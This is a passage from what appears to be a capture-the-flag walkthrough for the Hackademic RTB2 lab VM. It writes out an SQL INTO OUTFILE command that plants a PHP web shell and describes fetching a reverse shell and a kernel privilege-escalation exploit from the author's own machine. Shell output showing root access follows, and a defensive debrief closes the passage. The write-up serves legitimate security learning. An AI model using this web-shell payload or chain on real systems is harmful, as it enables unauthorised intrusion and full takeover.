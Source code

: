 I went to the phpmyadmin interface and logged in as root. Then I was able to use SQL to create a rudimentary shell:

``` sql
SELECT
"<? system($_REQUEST['cmd']); ?>"
INTO OUTFILE "/var/www/cmd.php";
```

After uploading this shell, I used to download the reverse PHP shell that I hosted with Python's SimpleHTTPServer. And then I navigated to it and received the connection on my Netcat listener:

``` plain
Linux HackademicRTB2 2.6.32-24-generic #39-Ubuntu SMP Wed Jul 28 06:07:29 UTC 2010 i686 GNU/Linux
 15:14:37 up  4:02,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: can't access tty; job control turned off
```

The local exploit that worked was the same one I used in the previous Hackademic challenge, the [RDS Protocol Local Privilege Escalation exploit](https://www.exploit-db.com/exploits/15285/). Again, I used wget to download it from my machine and ran it:

``` plain
[snipped]
[*] Restoring function pointer...
id
uid=0(root) gid=0(root)
ls /root/
Desktop
Key.txt
```

Trying to read the key gave a huge base64 encoded string, so I copied it to the web server directory, gave it permissions for everyone, and then I downloaded it on my machine, where I could decode it:

``` plain
root@pwnbox:~/Downloads#base64 -d key.txt > decoded
root@pwnbox:~/Downloads#file decoded
decoded: PNG image data, 756 x 344, 8-bit/color RGB, non-interlaced
```

So it's an image! (when I tried reading it there was binary garbage, so I assumed it must be another type of file than a text one). I used this [base64 to image converter](http://codebeautify.org/base64-to-image-converter) to see the image:

{% img center /images/pentest/hackademic/rtb2-win.png 'hackademic rtb2' 'hackademic rtb 2 finished' %}

# Debriefing

This host implemented a sneaky defense of port knocking in order to serve the second web server. It was a bit unrealistic to require a hardcoded value for the password parameter on the first web server in my opinion. The second server was vulnerable to real SQL injection that could read files on the system and execute commands. Having the database root credentials readily available allowed me to gain a foothold on the machine, from which the only step left was finding an exploit that would give me root.
